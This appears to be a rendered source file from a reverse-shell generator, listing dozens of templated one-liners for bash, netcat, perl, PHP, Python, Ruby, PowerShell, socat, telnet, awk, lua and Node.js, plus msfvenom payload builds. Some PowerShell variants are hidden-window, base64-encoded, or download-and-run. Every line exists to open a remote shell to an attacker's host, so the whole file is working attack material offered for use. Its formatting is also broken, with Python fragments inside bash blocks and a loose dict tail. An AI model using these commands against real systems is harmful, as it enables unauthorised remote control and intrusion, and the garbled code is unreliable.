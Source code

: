 # Spawning a shell

```bash
# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=%s LPORT=%d -f asp > revshell.asp' % (ipaddr, port),
```

```bash
# AWK
awk \'BEGIN {s = "/inet/tcp/0/%s/%d"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}\' /dev/null' % (ipaddr, port),
```

```bash
# Bash - Option 1
bash -i >& /dev/tcp/%s/%d 0>&1' % (ipaddr, port),
```

```bash
# Bash - Option 2
0<&196;exec 196<>/dev/tcp/%s/%d; bash <&196 >&196 2>&196' % (ipaddr, port),
```

```bash
# Bash - Option 3
exec 5<> /dev/tcp/%s/%d; cat <&5 | while read line; do $line 2>&5>&5; done' % (ipaddr, port),
```

```bash
# Java
r = Runtime.getRuntime();p = r.exec(["/bin/sh","-c","exec 5<>/dev/tcp/%s/%d;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor();' % (ipaddr, port),
```

```bash
# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=%s LPORT=%d -f raw > revshell.jsp' % (ipaddr, port),
```

```bash
# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=%s LPORT=%d -f elf > revshell' % (ipaddr, port),
```

'lua':'lua5.1 -e \'local host,port = \"%s\",%d local socket = require(\"socket\") local tcp = socket.tcp() local io = require(\"io\") tcp:connect(host,port); while true do local cmd,status,partial = tcp:receive() local f = io.popen(cmd,'r') local s = f:read(\"*a\") f:close() tcp:send(s) if status == \"closed\" then break end end tcp:close()\'' % (ipaddr, port),
        'nc':'nc -e /bin/sh %s %d' % (ipaddr, port),
        'nc-c':'nc -c /bin/sh %s %d' % (ipaddr, port),
        'nc-mkfifo':'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %d >/tmp/f' % (ipaddr, port),
        'nc-mknod':'rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc %s %d 1>/tmp/l' % (ipaddr, port),
        'nc-pipe':'/bin/sh | nc %s %d' % (ipaddr, port),
        'ncat':'ncat %s %d -e /bin/sh' % (ipaddr, port),
        'nodejs':'(function(){var net=require("net"),cp=require("child_process"),sh=cp.spawn("/bin/sh",[]);var client=new net.Socket();client.connect(%d,"%s",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;})();' % (port, ipaddr),
        'osx-bin':'msfvenom -p osx/x86/shell_reverse_tcp LHOST=%s LPORT=%d -f macho > revshell.macho' % (ipaddr, port),
        'perl':'perl -e \'use Socket;$i="%s";$p=%d;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'' % (ipaddr, port),
        'perl-2':'perl -MIO -e \'$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"%s:%d");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;\'' % (ipaddr, port),
        'perl-windows':'perl -MIO -e \'$c=new IO::Socket::INET(PeerAddr,"%s:%d");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;\'' % (ipaddr, port),
        'php':'php -r \'$sock=fsockopen("%s",%d);exec("/bin/sh -i <&3 >&3 2>&3");\'' % (ipaddr, port),
        'php-2':'php -r \'$s=fsockopen("%s",%d);shell_exec("/bin/sh -i <&3 >&3 2>&3");\'' % (ipaddr, port),
        'php-3':'php -r \'$s=fsockopen("%s",%d);`/bin/sh -i <&3 >&3 2>&3`;\'' % (ipaddr, port),
        'php-4':'php -r \'$s=fsockopen("%s",%d);system("/bin/sh -i <&3 >&3 2>&3");\'' % (ipaddr, port),
        'php-5':'php -r \'$s=fsockopen("%s",%d);popen("/bin/sh -i <&3 >&3 2>&3", "r");\'' % (ipaddr, port),
        'ps-tcp':'powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient(\"%s\",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' % (ipaddr, port),
        'ps-iex':'powershell IEX (New-Object Net.WebClient).DownloadString("http://%s:%d/revshell.ps1") \n\nMake a revshell.ps1 file and put it on your server!' % (ipaddr, port),
        'ps-b64':'powershell -e '+ b64encode(('$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' % (ipaddr, port)).encode('utf16')[2:]).decode(),
        'python':'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"%s\",%d));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\'' % (ipaddr, port),
        'python-2':'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("%s",%d));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")\'' % (ipaddr, port),
        'ruby':'ruby -rsocket -e\'f=TCPSocket.open(\"%s\",%d).to_i;exec sprintf(\"/bin/sh -i <&3 >&3 2>&3\",f,f,f)\'' % (ipaddr, port),
        'ruby-2':'ruby -rsocket -e \'exit if fork;c=TCPSocket.new("%s","%d");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end\'' % (ipaddr, port),
        'ruby-windows':'ruby -rsocket -e \'c=TCPSocket.new("%s","%d");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end\'' % (ipaddr, port),
        'socat':'socat exec:\'bash -li\',pty,stderr,setsid,sigint,sane tcp:%s:%d \n\n[+] Catch incoming shell with:\n\nsocat file:`tty`,raw,echo=0 tcp-listen:%d' % (ipaddr, port, port),
        'tclsh':'echo \'set s [socket %s %d];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;\' | tclsh' % (ipaddr, port),
        'telnet':'rm -f /tmp/p; mknod /tmp/p p && telnet %s %d 0/tmp/p' % (ipaddr, port),
        'telnet-mkfifo':'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet %s %d > /tmp/f' % (ipaddr, port),
        'war':'msfvenom -p java/shell_reverse_tcp LHOST=%s LPORT=%d -f war -o revshell.war' % (ipaddr, port),
        'win-bin':'msfvenom -p windows/meterpreter/reverse_tcp LHOST=%s LPORT=%d -f exe > revshell.exe' % (ipaddr, port),
        'xterm':'xterm -display %s:1 \n\n[+] Connect to your shell with:\n\nXnest :1 or xhost +targetip' % (ipaddr)
    }
